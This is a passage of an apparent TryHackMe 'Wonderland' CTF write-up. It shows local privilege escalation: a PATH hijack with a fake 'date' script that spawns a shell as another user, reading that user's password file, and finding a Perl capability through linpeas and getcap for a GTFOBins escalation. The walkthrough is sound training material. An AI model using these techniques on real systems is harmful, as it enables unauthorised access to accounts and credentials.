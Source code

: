 I copied teaParty to /tmp/ and set up a python http server. In hindsight I could have used ```scp``` command since I was in an SSH. I then ran strings in the first instance to see if there was something easy to spot. 
I saw a /bin/echo command being called referenceing yet another binary ```date```.
```bash
Welcome to the tea party!
The Mad Hatter will be here soon.
/bin/echo -n 'Probably by ' && date --date='next hour' -R
Ask very nicely, and I will give you some tea while you wait for him
Segmentation fault (core dumped)
```

Perhaps if we use the identical technique of hijacking a referenced library we can spawn a shell as another user. Python libraries will look in the existing directory however binaries look up the directory in the PATH variable so we need to update it. We can add rabbit's home directory by using:

```bash
$ export PATH=/home/rabbit:$PATH
```
We can then ```chmod +x``` to a new date file that simply runs bash
```bash
#!/bin/bash
/bin/bash
```

```bash
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ cd /home/hatter
hatter@wonderland:/home/hatter$ ls -la
total 28
drwxr-x--- 3 hatter hatter 4096 May 25  2020 .
drwxr-xr-x 6 root   root   4096 May 25  2020 ..
lrwxrwxrwx 1 root   root      9 May 25  2020 .bash_history -> /dev/null
-rw-r--r-- 1 hatter hatter  220 May 25  2020 .bash_logout
-rw-r--r-- 1 hatter hatter 3771 May 25  2020 .bashrc
drwxrwxr-x 3 hatter hatter 4096 May 25  2020 .local
-rw-r--r-- 1 hatter hatter  807 May 25  2020 .profile
-rw------- 1 hatter hatter   29 May 25  2020 password.txt
hatter@wonderland:/home/hatter$ cat password.txt 
***************************
```

<details><summary>hatter Credentials</summary></details>

I had to exit the original SSH session here and rejoin as hatter with the above credentials. hatter had no sudo credentials so I ran linpeas.sh that was still in the /tmp/ directory.
LinPeas showed that Perl is accessible as a capability. I read an article recently on capabilities [here](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

To search for these we can also use the command ```getcap -r / 2>/dev/null``` this is also taught in another TryHackMe room. (Link to be added)

Next we can use good ol' [GTFOBins](https://gtfobins.github.io/gtfobins/perl/#capabilities)

![GTFOBins](https://i.imgur.com/zcTaWSk.png "gtfobins")
